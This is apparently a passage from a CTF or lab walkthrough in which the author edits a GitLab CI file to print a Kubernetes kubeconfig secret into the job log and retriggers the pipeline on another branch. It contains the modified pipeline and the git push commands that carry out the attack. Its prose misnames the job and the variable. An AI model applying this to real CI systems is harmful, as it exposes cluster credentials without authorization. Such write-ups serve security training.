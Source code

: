 **File: `.gitlab-ci.yml`**
```yaml
---
      stages:
        - deploy

      deploy_to_k8s:
        stage: deploy
        image: bitnami/kubectl:latest
        script:
          - mkdir -p ~/.kube
          - 'echo "$KUBE_CONFIG" > ~/.kube/config'
          - kubectl get pods -n ci-build
          - kubectl apply -f k8s/deployment.yaml
        only:
          - main
```

**Key Observations:**
- The pipeline includes a `deploy_job` that runs only on the `main` branch.
- The job uses a variable named `KUBECONFIG`.
- This suggests the `KUBECONFIG` variable contains sensitive Kubernetes cluster configuration details, likely including credentials for accessing the Kubernetes API server (port 6443, identified in the initial reconnaissance).

#### Triggering the Pipeline

So let's try to get the content of the `KUBECONFIG` varibale by adding this line in the script section
```bash
- 'echo "DEBUG: KUBE_CONFIG=$KUBE_CONFIG"'
```
Since the pipeline only runs on the `main` branch, but we are on the `master` branch, we modify the `.gitlab-ci.yml` file to trigger the pipeline on the `master` branch

**Updated `.gitlab-ci.yml`:**
```yaml
stages:
        - deploy

      deploy_to_k8s:
        stage: deploy
        image: bitnami/kubectl:latest
        script:
          - mkdir -p ~/.kube
          - 'echo "$KUBE_CONFIG" > ~/.kube/config'
          - 'echo "DEBUG: KUBE_CONFIG=$KUBE_CONFIG"'
          - kubectl get pods -n ci-build
          - kubectl apply -f k8s/deployment.yaml
        only:
          - master
```

**Commands to commit and push changes:**
```bash
git add .gitlab-ci.yml
git commit -m "trigger pipeline"
git push origin master
```
